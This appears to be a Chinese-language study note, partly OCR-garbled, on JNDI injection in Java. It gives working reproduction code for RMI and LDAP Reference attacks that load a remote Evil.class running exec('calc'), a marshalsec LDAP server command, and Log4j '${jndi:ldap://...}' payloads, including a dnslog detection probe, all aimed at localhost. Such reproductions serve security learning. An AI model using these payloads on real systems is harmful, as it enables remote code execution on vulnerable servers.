 ## **JNDI+RMI利用方式**
直接JNDI运行远程方法。
在JNDI服务中，RMI服务端除了直接绑定远程对象之外，还可以通过References类来绑定一个外部的远程对象(当前名称目录系统之外的对象)。绑定了Reference之后，服务端会先通过Referenceable.getReference()获取绑定对象的引l用，并且在目录中保存。
当客户端在lookup()查找这个远程对象时，客户端会获又相应的object factory，最终通过factory类将reference转换为具体的对象实例。
在jdk 8U121后不可用了。RMl远程Reference代码默认不信任，RMl远程Reference代码攻击方式开始失效。
**复现**
恶意类，编译.class放在8080http服务
```
import java.io.IOException;​
public class Evil {​
        static {​
                try {​
                        Runtime.getRuntime().exec("calc");​
                } catch (IOException e) {​
                        throw new RuntimeException(e);​
                }​
        }​
}
```
RMI服务端，使用Reference引用http上的class文件
```
public class Refer {​
        public static void main(String[] args) throws NamingException, RemoteException, AlreadyBoundException {​
                String url = "http://127.0.0.1:8080/";​
                Registry registry = LocateRegistry.createRegistry(1099);​
                System.out.println("Registry start");​
                Reference reference = new Reference("test", "Evil", url);​
                ReferenceWrapper referenceWrapper = new ReferenceWrapper(reference);​
                registry.bind("aa",referenceWrapper);​
        }​
}
```
被攻击的客户端使用JNDI
```
public class Client {​
        public static void main(String[] args) throws NamingException {​
                Context context=new InitialContext();​
                String url="rmi://127.0.0.1:1099/aa";​
                context.lookup(url);​
        }​
}
```


^
## **JNDI+LDAP利用方式**
使用marshalsec启动一个恶意的LDAP服务，可以执行恶意方法。
其中 http://127.0.0.1:8000/#Evil 的根目录下有一个Evil.class的恶意类。
```
java -cp marshalsec-0.0.3-SNAPSH0T-all.jar marshalsec.jndi.LDAPRefServer http://127.0.0.1:8000/#Evil 10997
```
```
public static void main(String[] args) throws NamingException {
    InitialContext context = new InitialContext();
    context.lookup( "ldap://127.0.0.1:10997/evil");
}
```
从jdk 8u191开始，LDAP远程Reference代码默认不信任，LDAP远程Reference代码攻击方式开始失效，需要通过javaSerializedData返回序列化gadget方式实现攻击。

^
## **log4j的JNDI注入**
```
使用${jndi:}后，底层使用了new InitialContext().lookup()
logger.info("${jndi:ldap://127.0.0.1:1099/Evil}");
```

```
仅测试dnslog即可，一般有结果就一定存在注入
logger.info("${jndi:ldap://xx.dnslog.cn}");
```